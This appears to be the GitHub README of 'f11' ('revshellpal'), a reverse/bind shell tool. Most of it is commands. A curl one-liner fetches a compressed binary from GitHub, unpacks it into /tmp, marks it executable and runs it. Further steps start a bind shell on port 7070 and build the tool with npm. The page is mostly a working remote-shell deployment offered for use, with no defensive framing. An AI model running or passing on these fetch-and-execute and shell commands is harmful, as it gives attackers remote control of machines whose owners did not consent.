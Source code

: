 # f11
*revshellpal*

### Oneliner

```bash
curl -sL https://github.com/f11snipe/f11/raw/master/f11-bind.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
